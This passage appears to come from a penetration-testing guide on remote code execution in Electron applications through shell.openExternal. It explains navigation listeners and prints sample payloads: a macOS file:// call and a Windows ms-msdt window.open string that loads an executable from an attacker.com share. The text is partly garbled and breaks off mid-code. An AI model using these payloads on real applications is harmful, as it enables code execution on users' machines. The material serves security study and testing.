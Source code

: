 ```

If there are restrictions applied when you click a link you might be able to bypass them **doing a middle click** instead of a regular left click

```javascript
window.addEventListener('click', (e) => {
```
```
## RCE via shell.openExternal

For more info about this examples check [[https://shabarkin.medium.com/1-click-rce-in-electron-applications-79b52e1fe8b8) and [https://benjamin-altpeter.de/shell-openexternal-dangers/](https://benjamin-altpeter.de/shell-openexternal-dangers/|https://shabarkin.medium.com/1-click-rce-in-electron-applications-79b52e1fe8b8]]

When deploying an Electron desktop application, ensuring the correct settings for `nodeIntegration` and `contextIsolation` is crucial. It's established that **client-side remote code execution (RCE)** targeting preload scripts or Electron's native code from the main process is effectively prevented with these settings in place.

Upon a user interacting with links or opening new windows, specific event listeners are triggered, which are crucial for the application's security and functionality:

```javascript
webContents.on("new-window", function (event, url, disposition, options) {}
webContents.on("will-navigate", function (event, url) {}
```
```
These listeners are **overridden by the desktop application** to implement its own **business logic**. The application evaluates whether a navigated link should be opened internally or in an external web browser. This decision is typically made through a function, `openInternally`. If this function returns `false`, it indicates that the link should be opened externally, utilizing the `shell.openExternal` function.

**Here is a simplified pseudocode:**

![[<../../../images/image (261).png>|https://miro.medium.com/max/1400/1*iqX26DMEr9RF7nMC1ANMAA.png]]

![[<../../../images/image (963).png>|https://miro.medium.com/max/1400/1*ZfgVwT3X1V_UfjcKaAccag.png]]

Electron JS security best practices advise against accepting untrusted content with the `openExternal` function, as it could lead to RCE through various protocols. Operating systems support different protocols that might trigger RCE. For detailed examples and further explanation on this topic, one can refer to [[https://positive.security/blog/url-open-rce#windows-10-19042|this resource]], which includes Windows protocol examples capable of exploiting this vulnerability.

In macos, the `openExternal` function can be exploited to execute arbitrary commands like in `shell.openExternal('file:///System/Applications/Calculator.app')`.

**Examples of Windows protocol exploits include:**

```html
<script>
  window.open(
    "ms-msdt:id%20PCWDiagnostic%20%2Fmoreoptions%20false%20%2Fskip%20true%20%2Fparam%20IT_BrowseForFile%3D%22%5Cattacker.comsmb_sharemalicious_executable.exe%22%20%2Fparam%20IT_SelectProgram%3D%22NotListed%22%20%2Fparam%20IT_AutoTroubleshoot%3D%22ts_AUTO%22"
  )
</script>

<script>
  window.open(
```